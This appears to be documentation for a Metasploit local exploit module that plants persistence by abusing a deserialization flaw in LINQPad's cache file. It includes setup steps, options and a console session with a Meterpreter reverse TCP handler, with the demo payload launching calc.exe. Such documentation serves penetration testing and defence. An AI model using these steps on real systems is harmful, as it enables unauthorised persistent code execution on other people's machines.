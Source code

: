 ## Vulnerable Application

LINQPad is a scratchpad for .NET programming. Versions prior to 5.52.01 contain a deserialization vulnerability in processing cache file when program is starting. Application can be downloaded from [here](https://www.linqpad.net/LINQPad5.aspx).

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get Meterpreter/cmd shell
4. Run: `use windows/local/linqpad_deserialization_persistence_persistence`
5. Set payload - for example `set payload cmd/windows/generic` - and corresponding parameters
6. Set parameters `session`, `cache_path`, `linqpad_path`, `cleanup`
7. Run exploit

## Options

### cleanup

Enable cleanup of malicious file. The module will replace cache filewith malicious content. If `cleanup` is enabled, after successful execution, the module will remove malicious cache file. The original file will be restored upon re-execution of Linqpad.

### cache\_path

The parameter sets path for folder, where vulnerable cache file is present. This is crucial part of the exploit as the folder can be used to identify whether the current version is vulnerable and the payload delivery is performed through cache file. 

### linqpad\_path

Final part of exploit runs the LINQPad to trigger deserialization procedure. The `linpad_path` parameter sets the path to LINQPad binary, which is ran at the end of exploit.

## Scenarios

```
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 192.168.95.128
msf exploit(multi/handler) > set LPORT 4242
msf exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.95.128:4242 
[*] Meterpreter session 1 opened (192.168.95.128:4242 -> 192.168.95.130:53430) at 2024-12-30 12:46:16 +0100

meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use windows/local/linqpad_deserialization_persistence
msf exploit(windows/local/linqpad_deserialization_persistence) > set LINQPAD_FILE C:/ProgramData/LINQPad/Updates50.AnyCPU/552/LINQPad.exe
msf exploit(windows/local/linqpad_deserialization_persistence) > set payload windows/exec/cmd
msf exploit(windows/local/linqpad_deserialization_persistence) > set cache_path C:/Users/ms/AppData/Local/LINQPad
msf exploit(windows/local/linqpad_deserialization_persistence) > set CMD calc.exe
msf exploit(windows/local/linqpad_deserialization_persistence) > set session 1
msf exploit(windows/local/linqpad_deserialization_persistence) > exploit
[*] Exploit completed, but no session was created.
```

Previous example will run `calc.exe` when LINQPad will start.

